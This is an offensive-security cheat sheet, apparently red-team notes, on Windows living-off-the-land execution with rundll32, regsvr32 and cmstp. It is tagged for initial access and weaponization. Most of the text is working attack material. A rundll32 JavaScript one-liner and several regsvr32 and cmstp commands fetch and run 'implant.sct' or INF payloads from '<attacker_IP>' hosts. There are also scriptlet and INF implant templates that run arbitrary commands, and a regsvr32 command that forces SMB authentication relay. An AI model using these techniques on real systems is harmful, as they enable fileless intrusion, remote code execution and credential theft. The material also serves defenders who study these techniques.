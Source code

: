 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - T1117
  - windows
---
```

# Scriptlet

## Rundll32

```
C:\> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http[s]://<attacker_IP>/implant.sct");window.close();
```

## Regsvr32

Fileless scriptlet implant template.

```xml
<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="PoC"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            var r = new ActiveXObject("WScript.Shell").Run("<commands>");    
        ]]>
</script>
</registration>
</scriptlet>
```

Execute DLL implant.

```
C:\> regsvr32.exe /s implant.dll
```

Execute a SCT implant.

```
C:\> regsvr32.exe /s /u /i:implant.sct scrobj.dll
```

Execute a fileless implant.

```
C:\> regsvr32.exe /s /u /i:http[s]://<IP>[:PORT]/implant.sct scrobj.dll

C:\> regsvr32.exe /s /u /i:\\<attacker_IP>\implant.sct scrobj.dll
```

Execute command to perform SMB authentication relay.

```
C:\> regsvr32.exe /s /u /i:\\<attacker_IP>\@snare scrobj.dll
```

## CMSTP

Fileless scriptlet implant template

```
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
UnRegisterOCXs=UnRegisterOCXSection

[UnRegisterOCXSection]
%11%\scrobj.dll,NI,http[s]://<IP>[:PORT]/implant.sct

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Yay"
ShortSvcName="Yay"
```

Execute implant.

```
C:\> cmstp.exe /ni /s implant.inf
```

Execute fileless implant.

```
C:\> cmstp.exe /ni /s http[s]://<IP>[:PORT]/implant.inf
```

---
## References

### Backlinks

- [[DLL Execution]]

### LOLBAS

- [LOLBAS: Regsvr32](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/)

- [LOLBAS: cmstp](https://lolbas-project.github.io/lolbas/Binaries/Cmstp/)

### Hacktricks

- [Hacktricks: Windows Reverse Shells](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/reverse-shells/windows.html)

### Red Team Notes

- [Red Team Notes: Code Execution - Regsvr32](https://www.ired.team/offensive-security/code-execution/t1117-regsvr32-aka-squiblydoo)

- [Red Team Notes: CMSTP](https://www.ired.team/offensive-security/code-execution/t1191-cmstp-code-execution)